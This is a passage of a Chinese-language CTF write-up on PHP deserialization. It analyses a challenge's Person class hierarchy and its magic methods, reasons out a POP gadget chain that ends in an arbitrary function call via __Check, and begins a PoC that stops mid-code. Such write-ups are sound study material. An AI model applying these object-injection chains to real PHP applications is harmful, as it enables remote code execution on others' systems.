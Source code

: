 ```php

$payload = serialize($obj);
unserialize($payload); // 调试__wakeup()
echo urlencode($payload);
```

---

## [PHP反序列化] 19 第十九章 星穹真相·补天归源

认真审一下题，这个代码使用了很多重复的变量名，容易搞混。

给了我们基类 `Person`，定义了 `name`, `id`, `age`三个属性。

作为函数触发时，接受一个参数 `x`，将自己参数的 `id` 当作一个对象，修改它的 `name` 为 `x`，修改它的 `age` 为本对象的 `name` 属性值。

`PersonA` 在被销毁时，执行 `$name->$id($age);`

`PersonB` 当你动态地设置它的属性时，无论修改什么属性都会变成修改它的 `name` 为对应值。

`PersonC` 被反序列化时将自己的 `id` 认作一个对象，修改它的 `age` 等于自己的 `age` ，然后将它当作函数执行，传入自己作为实参。他还有一个 `__Check` 方法，接受参数 `y` ，然后对自身属性 `age` 和 `name` 进行关键词 `flag` 的检测，然后执行`$name($y);`

然后我们就明了了，最后肯定是要调用`__Check` （毕竟它写了一个关键词过滤求我们打。反推回去，调用一个方法我们得用到 `PersonA` ，其实就这样就行了，其他都是干扰。

PoC 如下：

```php
<?php
class Person
{
    public $name;
    public $id;
    public $age;

    public function __invoke($id)
    {
        $name = $this->id;
        $name->name = $id;
        $name->age = $this->name;
    }
}

class PersonA extends Person
{
    public function __destruct()
    {
        $name = $this->name;
        $id = $this->id;
        $age = $this->age;
        $name->$id($age);
    }
}

class PersonB extends Person
{
    public function __set($key, $value)
    {
        $this->name = $value;
    }
}

class PersonC extends Person
{
    public function __Check($age)
    {
        if(str_contains($this->age . $this->name,"flag"))
```